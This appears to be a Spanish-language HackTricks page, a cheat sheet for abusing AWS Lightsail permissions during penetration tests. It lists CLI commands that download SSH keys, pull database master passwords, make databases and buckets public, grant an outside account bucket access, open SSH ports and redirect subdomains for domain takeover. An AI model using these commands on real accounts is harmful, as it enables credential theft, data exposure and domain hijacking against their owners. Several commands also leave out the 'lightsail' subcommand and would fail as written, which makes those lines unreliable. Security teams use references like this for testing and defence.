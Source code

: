 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Para más información sobre Lightsail consulta:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Es importante tener en cuenta que Lightsail **no utiliza roles de IAM pertenecientes al usuario** sino a una cuenta administrada por AWS, por lo que no puedes abusar de este servicio para privesc. Sin embargo, **datos sensibles** como código, claves API e información de bases de datos podrían encontrarse en este servicio.

### `lightsail:DownloadDefaultKeyPair`

Este permiso te permitirá obtener las claves SSH para acceder a las instancias:
```
aws lightsail download-default-key-pair
```
**Impacto Potencial:** Encontrar información sensible dentro de las instancias.

### `lightsail:GetInstanceAccessDetails`

Este permiso te permitirá generar claves SSH para acceder a las instancias:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impacto Potencial:** Encontrar información sensible dentro de las instancias.

### `lightsail:CreateBucketAccessKey`

Este permiso te permitirá obtener una clave para acceder al bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impacto Potencial:** Encontrar información sensible dentro del bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Este permiso te permitirá obtener las credenciales para acceder a la base de datos:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impacto Potencial:** Encontrar información sensible dentro de la base de datos.

### `lightsail:UpdateRelationalDatabase`

Este permiso te permitirá cambiar la contraseña para acceder a la base de datos:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Si la base de datos no es pública, también podrías hacerla pública con estos permisos con
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Impacto Potencial:** Encontrar información sensible dentro de la base de datos.

### `lightsail:OpenInstancePublicPorts`

Este permiso permite abrir puertos a Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acceso a puertos sensibles.

### `lightsail:PutInstancePublicPorts`

Este permiso permite abrir puertos a Internet. Tenga en cuenta que la llamada cerrará cualquier puerto abierto que no esté especificado en ella.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acceso a puertos sensibles.

### `lightsail:SetResourceAccessForBucket`

Este permiso permite dar a una instancia acceso a un bucket sin credenciales adicionales.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Impacto Potencial:** Acceso potencial nuevo a buckets con información sensible.

### `lightsail:UpdateBucket`

Con este permiso, un atacante podría otorgar a su propia cuenta de AWS acceso de lectura sobre los buckets o incluso hacer que los buckets sean públicos para todos:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impacto Potencial:** Acceso potencial a buckets con información sensible.

### `lightsail:UpdateContainerService`

Con estos permisos, un atacante podría otorgar acceso a ECRs privados desde el servicio de contenedores.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impacto Potencial:** Obtener información sensible de ECR privado

### `lightsail:CreateDomainEntry`

Un atacante con este permiso podría crear un subdominio y apuntarlo a su propia dirección IP (toma de subdominio), o crear un registro SPF que le permita falsificar correos electrónicos del dominio, o incluso establecer el dominio principal a su propia dirección IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Toma de control de un dominio

### `lightsail:UpdateDomainEntry`

Un atacante con este permiso podría crear un subdominio y apuntarlo a su propia dirección IP (toma de control del subdominio), o crear un registro SPF que le permita falsificar correos electrónicos del dominio, o incluso establecer el dominio principal en su propia dirección IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Toma de control de un dominio

{{#include ../../../banners/hacktricks-training.md}}
